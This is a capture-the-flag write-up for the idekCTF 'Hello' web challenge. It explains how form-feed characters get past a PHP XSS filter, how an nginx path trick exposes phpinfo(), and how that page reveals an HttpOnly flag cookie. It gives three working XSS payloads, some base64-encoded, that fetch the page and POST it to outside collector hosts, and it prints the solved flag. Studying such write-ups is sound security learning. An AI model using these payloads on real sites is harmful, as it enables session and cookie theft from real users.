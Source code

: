 # Hello
## Description
> Just to warm you up for the next Fight :"D <br><br>
> Note: the admin bot is not on the same machine as the challenge itself and the .chal.idek.team:1337 URL should be used for the admin bot URL <br>
> http://idek-hello.chal.idek.team:1337 <br>
> https://admin-bot.idek.team/idek-hello

![image](https://github.com/user-attachments/assets/4c597db2-e0bf-4ce0-be99-baaecaabdb46)

## Initial Analysis
1. ```index.php``` <br>

This file processes a ```name``` parameter from the query string and displays it. However, it uses an ```Enhanced_Trim``` function to strip certain characters (like spaces, slashes, etc.) from the input, which complicates crafting an XSS payload.
```php
function  Enhanced_Trim($inp) {
$trimmed = array("\r", "\n", "\t", "/", " ");
return  str_replace($trimmed, "", $inp);
}
```
However, by experimenting with different characters, I discovered that using ```%0C``` (form feed) as an alternative to a space character allows us to craft a working payload:

```html
<img%0Csrc=x%0Conerror=alert()>
```
2. ```info.php``` <br>

This file outputs the PHP configuration using phpinfo(), which includes all cookies sent with the request, even those with the HttpOnly flag. This is crucial, as the flag is stored in such a cookie.

3. ```nginx.conf``` <br>

A configuration rule restricts access to info.php to localhost only. However, a misconfiguration in the nginx.conf allows bypassing this restriction by appending a path to the URL (e.g., /info.php/index.php). https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm

4. ```bot.js```
The bot.js script:
- Launches a headless browser using Puppeteer.
- Visits the specified challenge origin as admin. (```localhost:1337```)
- Sets an HttpOnly cookie named FLAG. (can’t be accessed via ```document.Cookie```)
- Navigates to a target URL submitted by the user.
  
Our goal is to retrieve the flag by making the admin bot visit the info.php page and sending its content to our server.

## Solution

1. Bypassing the XSS Filter

Blacklist : ```\r```, ```\n```, ```\t```, ```/```, and ```spaces``` → %0c (form feed) can be used as a substitute for spaces

2. Bypassing the HttpOnly Flag

Access through ```info.php``` where ```phpinfo()``` can  displays PHP settings, including cookies—even those with HttpOnly set.

3. Bypassing Nginx Restrictions

To bypass the restriction, I utilized the ```/info.php/index.php``` path, which allows the bot to access the ```info.php``` page. The final step was crafting a payload to make the bot visit this page, capture the response, and send it to our server:

## Exploits

### 1. <img%0Csrc=x%0Conerror> x-www-form-urlencoded + %0c
```javascript
<img%0Csrc=x%0Conerror='fetch("info.php%252Findex.php")%0C.then(response%0C=>%0Cresponse.text())%0C.
then(data%0C=>%0Cfetch("https://idekctf.free.beeceptor.com/",%0C{method:"POST",%0Cheaders:{%0C"Content-Type":"application/x-www-form-urlencoded"},%0Cbody:"data="%0C%2BencodeURIComponent(data)})%0C)'>
```
### 2. <svg%0Conload> + json + base64 payload
- Original Payload
```javascript
fetch('http://idek-hello.chal.idek.team:1337/info.php/index.php').then(response => response.text()).then(data => {return fetch('https://idekctf.free.beeceptor.com', {method: 'POST',headers: {'Content-Type': 'application/json'},body: JSON.stringify({ content: data })});});
```
- Base64
```javascript
<svg%0Conload="eval(atob('base64-encoded-js-code'))">
```
```javascript
<svg%0Conload="eval(atob('ZmV0Y2goJ2h0dHA6Ly9pZGVrLWhlbGxvLmNoYWwuaWRlay50ZWFtOjEzMzcvaW5mby5waHAvaW5kZXgucGhwJykudGhlbihyZXNwb25zZSA9PiByZXNwb25zZS50ZXh0KCkpLnRoZW4oZGF0YSA9PiB7cmV0dXJuIGZldGNoKCdodHRwczovL2lkZWtjdGYuZnJlZS5iZWVjZXB0b3IuY29tJywge21ldGhvZDogJ1BPU1QnLGhlYWRlcnM6IHsnQ29udGVudC1UeXBlJzogJ2FwcGxpY2F0aW9uL2pzb24nfSxib2R5OiBKU09OLnN0cmluZ2lmeSh7IGNvbnRlbnQ6IGRhdGEgfSl9KTt9KTs='))">
```
### 3. <svg%0Conload> + raw + base64 payload (WebHook) 
```
fetch(atob('ChallengeURL as b64=')).then(r=>r.text()).then(e=>fetch(atob('<change me to webhook server as b64>'),{method:'POST',body:e})
```
```
<svg%0Conload="fetch(atob('aHR0cDovL2lkZWstaGVsbG8uY2hhbC5pZGVrLnRlYW06MTMzNy9pbmZvLnBocCUyZi5waHA=')).then(r=>r.text()).then(e=>fetch(atob('aHR0cHM6Ly93ZWJob29rLnNpdGUvOWE0MDc2ZDUtNjg2Yi00YjYzLTkwYjAtY2E2ZGE4YWQ0Mjk5'),{method:'POST',body:e}))">
```
![image](https://github.com/user-attachments/assets/4c38331e-3956-4abd-9f02-a7daab638413)

## Final Steps
- XSS Trigger: The bot visits the crafted URL, triggering the XSS payload.
- Flag Extraction: The payload bypasses the HttpOnly restriction by accessing info.php and sending the flag to your server.
- Result: The flag was successfully retrieved: idek{Ghazy_N3gm_Elbalad}.
